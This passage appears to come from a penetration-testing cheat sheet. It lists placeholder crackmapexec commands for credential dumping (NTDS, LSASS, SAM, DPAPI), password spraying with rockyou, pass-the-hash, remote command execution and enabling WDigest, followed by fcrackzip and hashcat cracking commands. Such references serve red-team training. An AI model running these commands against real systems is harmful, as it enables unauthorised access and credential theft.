```c
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --local-auth --dpapi
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" -M lsassy
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --ntds
crackmapexec smb <RHOST> -u "<USERNAME>" -H "<NTLMHASH>" --ntds
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --ntds --user <USERNAME>
crackmapexec smb <RHOST> -u "<USERNAME>" -H "<NTLMHASH>" --ntds --user <USERNAME>
crackmapexec smb <RHOST> -u "<USERNAME>" -H <HASH> -x "whoami"
crackmapexec winrm <SUBNET>/24 -u "<USERNAME>" -p "<PASSWORD>" -d .
crackmapexec winrm -u /t -p "<PASSWORD>" -d <DOMAIN> <RHOST>
crackmapexec winrm <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt --shares
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt --pass-pol
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt --lusers
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt --sam
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt -x 'net user Administrator /domain' --exec-method smbexec
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt --wdigest enable
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt -x 'quser'
```

#### fcrack

```c
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt <FILE>.zip
```

#### hashcat

> https://hashcat.net/hashcat/

> https://hashcat.net/wiki/doku.php?id=hashcat

> https://hashcat.net/cap2hashcat/

> https://hashcat.net/wiki/doku.php?id=example_hashes

```c
hashcat --example-hashes
```

```c
hashcat -m 0 md5 /usr/share/wordlists/rockyou.txt
hashcat -m 100 sha-1 /usr/share/wordlists/rockyou.txt
hashcat -m 1400 sha256 /usr/share/wordlists/rockyou.txt
hashcat -m 3200 bcrypt /usr/share/wordlists/rockyou.txt
hashcat -m 900 md4 /usr/share/wordlists/rockyou.txt
hashcat -m 1000 ntlm /usr/share/wordlists/rockyou.txt
hashcat -m 1800 sha512 /usr/share/wordlists/rockyou.txt
hashcat -m 160 hmac-sha1 /usr/share/wordlists/rockyou.txt
hashcat -a 0 -m 0 hash.txt SecLists/Passwords/xato-net-10-million-passwords-1000000.txt -O --force
hashcat -O -m 500 -a 3 -1 ?l -2 ?d -3 ?u  --force hash.txt ?3?3?1?1?1?1?2?3
```
